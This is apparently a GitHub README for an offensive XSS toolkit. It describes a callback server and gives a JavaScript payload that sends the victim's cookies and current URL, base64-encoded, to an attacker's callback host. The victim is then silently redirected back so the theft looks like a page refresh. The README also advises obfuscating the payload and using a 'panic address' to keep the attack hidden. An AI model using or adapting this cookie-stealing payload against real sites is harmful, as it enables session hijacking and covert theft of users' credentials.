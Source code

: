 ## Description

This repo contains an example of a CORS callback server and an XSS payload that, once executed, will change the current window location of the victim to your callback address, which returns a **301 Moved Permanently** response sending the victim back to its referer, although this time with a token in the URL anchor, preventing the XSS payload from reactivating.

This enables you to sniff sensitive data via URL parameters when the victim is sent to your callback address.

If for whatever reason the victim did not reveal its origin (referer), the victim will be redirected to your panic address of choice, in an attempt to keep the attack hidden.

When the attack is successful, the victim experienced what seemed like a page refresh at most.

## Usage

First of all make sure that your callback server is listening.

Then throw the following code in your XSS payload. Be sure to change the address to that of your callback server, and change the token at the very least. The more you obfuscate this code, the higher your success rate will be. 

Refine your payload as required, or it may get triggered unexpectedly.

```javascript
const token = "w3lRZ87e";
if (location.hash != token) self.location = "https://mycallbackserver.net/callback.php" + 
                	"?referer=" + encodeURIComponent( btoa(self.location.href) ) + 
                	"&data=" + encodeURIComponent( btoa(document.cookie) ) + 
                	"&token=" + encodeURIComponent( btoa(token) );
```

<sup>If you choose not to include a referer in the URL parameters, the callback server defaults to the **`Referer`** header of the request.<br>If neither a referer parameter or Referer header is present, the panic address is used.</sup>
